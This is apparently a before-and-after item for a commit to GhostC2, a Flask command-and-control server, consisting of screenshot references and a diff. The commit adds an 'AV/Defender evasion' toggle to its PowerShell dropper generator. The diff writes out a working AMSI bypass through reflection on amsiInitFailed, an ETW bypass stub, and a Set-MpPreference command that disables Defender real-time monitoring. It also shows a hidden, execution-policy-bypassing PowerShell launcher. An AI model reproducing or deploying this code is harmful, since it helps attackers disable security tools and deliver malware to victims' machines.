

Before and after one commit to wolfwashere/GhostC2, a Flask app: page /generate_ps in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Add AV/Defender evasion module for PS payloads (AMSI/ETW/Defender bypass, UI toggle)

```diff
--- a/server/app.py
+++ b/server/app.py
@@ -451,6 +451,30 @@ def generate_ps():
     output_path = None
     if request.method == 'POST':
         ps1_code = request.form.get('ps1')
+        evasion_enabled = 'evasion_enabled' in request.form
+        if evasion_enabled:
+            amsi_bypass = """
+$A='System.Management.Automation.AmsiUtils';
+$B=[Ref].Assembly.GetType($A);
+$B.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
+""".strip()
+
+            etw_bypass = """
+try {
+    [System.Reflection.Assembly]::Load([Convert]::FromBase64String(
+    '...')) | Out-Null
+} catch {}
+""".strip()
+
+            defender_disable = """
+try {
+    Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
+} catch {}
+""".strip()
+
+            evasion_code = "\n".join([amsi_bypass, etw_bypass, defender_disable])
+            ps1_code = f"{evasion_code}\n\n{ps1_code}"
+
         wrapper = request.form.get('format')
         filename = request.form.get('filename') or f"dropper_{wrapper}_{datetime.now().strftime('%Y%m%d_%H%M%S')}.{wrapper}"
         use_b64 = request.form.get('b64encode')  # Checkbox is present if checked, None if not
@@ -496,6 +520,7 @@ objShell.Run "powershell -w hidden -ep bypass -command \"{safe_ps}\"", 0'''
         output_path = filename  # Just filename for link
 
     return render_template("generate_ps.html", output_path=output_path)
+
 
 
 @app.route('/payloads/<filename>')
--- a/server/templates/generate_ps.html
+++ b/server/templates/generate_ps.html
@@ -209,7 +209,11 @@
                 <input type="checkbox" name="b64encode" id="b64encode" checked>
                 Base64-encode PowerShell payload (recommended for all wrapper types)
                 </label>
-
+                <label>
+                <input type="checkbox" id="evasion_enabled" name="evasion_enabled">
+                <span>Enable AV/Defender Evasion</span>
+                </label>
+                <small style="color: #888; margin-left: 34px;">(Injects AMSI/ETW bypass, disables Defender, obfuscates vars, etc.)</small>
                 <button type="submit">Generate Dropper</button>
             </form>
             {% if output_path %}
```
Also changed, not shown: tools/ps_builder.py (+25 -2 lines).
